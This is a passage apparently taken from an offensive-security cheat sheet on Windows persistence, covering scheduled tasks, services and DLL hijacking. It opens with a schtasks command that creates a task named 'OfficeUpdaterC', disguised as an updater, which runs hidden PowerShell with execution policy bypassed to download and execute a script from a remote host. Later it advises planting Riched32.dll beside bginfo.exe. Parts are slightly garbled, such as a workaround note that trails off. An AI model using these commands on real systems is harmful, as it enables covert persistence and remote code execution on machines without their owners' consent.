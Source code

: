 ```
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

#### Additional Notes

Scheduled Tasks binary paths CANNOT contain spaces because everything after the first space in the path is considered to be a command-line argument. To workaround this behavior, enclose the /TR path parameter between backslash (\) AND quotation marks ("):

Delete scheduled task without prompting	
```	
	schtasks /delete /f /TN taskname
```

Detailed scheduled tasks listing
```	
	schtasks /query /V /FO list
```
	
View scheduled tasks log (for troubleshooting)
```	
	notepad c:\windows\schedlgu.txt (Windows XP)

	notepad c:\windows\tasks\schedlgu.txt (Vista+)
	
```

### Windows Service
```
	sc query
	sc create <\\Target(optional)> <servicename> binPath= <service binary path> type= share start= auto DisplayName= <display name>
	sc delete <servicename>
```

### DLL-Hijacking

Order of DLL Loading
```
1. The directory from which the application is loaded
2. The current directory
3. The system directory, usually C:\\Windows\\System32\\ (The GetSystemDirectory function is called to obtain this directory.)
4. The 16-bit system directory - There is no dedicated function to retrieve the path of this directory, but it is searched as well.
5. The Windows directory. The GetWindowsDirector function is called to obtain this directory.
6. The directories that are listed in the PATH environment variable.
```

Many systems use bginfo (seen it a lot in operational sys). Drop Riched32.dll in the dir with bginfo.exe. Codex.

Older list of dlls as well (2010). https://www.exploit-db.com/dll-hijacking-vulnerable-applications/
